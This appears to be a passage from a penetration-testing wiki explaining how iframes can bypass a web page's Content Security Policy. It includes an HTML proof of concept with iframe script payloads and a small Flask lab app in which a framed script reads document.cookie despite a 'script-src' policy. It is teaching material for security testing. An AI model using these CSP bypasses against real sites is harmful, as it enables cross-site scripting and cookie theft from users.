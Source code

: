 ### Iframes with CSP <a href="#iframes_with_csp_40" id="iframes_with_csp_40"></a>

{% hint style="info" %}
Please, note how in the following bypasses the response to the iframed page doesn't contain any CSP header that prevents JS execution.
{% endhint %}

The `self` value of `script-src` won’t allow the execution of the JS code using the `data:` protocol or the `srcdoc` attribute.\
However, even the `none` value of the CSP will allow the execution of the iframes that put a URL (complete or just the path) in the `src` attribute.\
Therefore it’s possible to bypass the CSP of a page with:

```html
<html>
<head>
 <meta http-equiv="Content-Security-Policy" content="script-src 'sha256-iF/bMbiFXal+AAl9tF8N6+KagNWdMlnhLqWkjAocLsk='">
</head>
  <script>
  var secret = "31337s3cr37t";
  </script>
  <iframe id="if1" src="child.html"></iframe>
  <iframe id="if2" src="http://127.0.1.1:8000/child.html"></iframe>
  <iframe id="if3" srcdoc="<script>var secret='if3 secret!'; alert(parent.secret)</script>"></iframe>
  <iframe id="if4" src="data:text/html;charset=utf-8,%3Cscript%3Evar%20secret='if4%20secret!';alert(parent.secret)%3C%2Fscript%3E"></iframe>
</html>
```

Note how the **previous CSP only permits the execution of the inline script**.\
However, **only `if1` and `if2` scripts are going to be executed but only `if1` will be able to access the parent secret**.

![](<../../.gitbook/assets/image (627) (1) (1).png>)

Therefore, it’s possible to **bypass a CSP if you can upload a JS file to the server and load it via iframe even with `script-src 'none'`**. This can **potentially be also done abusing a same-site JSONP endpoint**.

You can test this with the following scenario were a cookie is stolen even with `script-src 'none'`. Just run the application and access it with your browser:

```python
import flask
from flask import Flask
app = Flask(__name__)

@app.route("/")
def index():
    resp = flask.Response('<html><iframe id="if1" src="cookie_s.html"></iframe></html>')
    resp.headers['Content-Security-Policy'] = "script-src 'self'"
    resp.headers['Set-Cookie'] = 'secret=THISISMYSECRET'
    return resp

@app.route("/cookie_s.html")
def cookie_s():
    return "<script>alert(document.cookie)</script>"

if __name__ == "__main__":
    app.run()
```
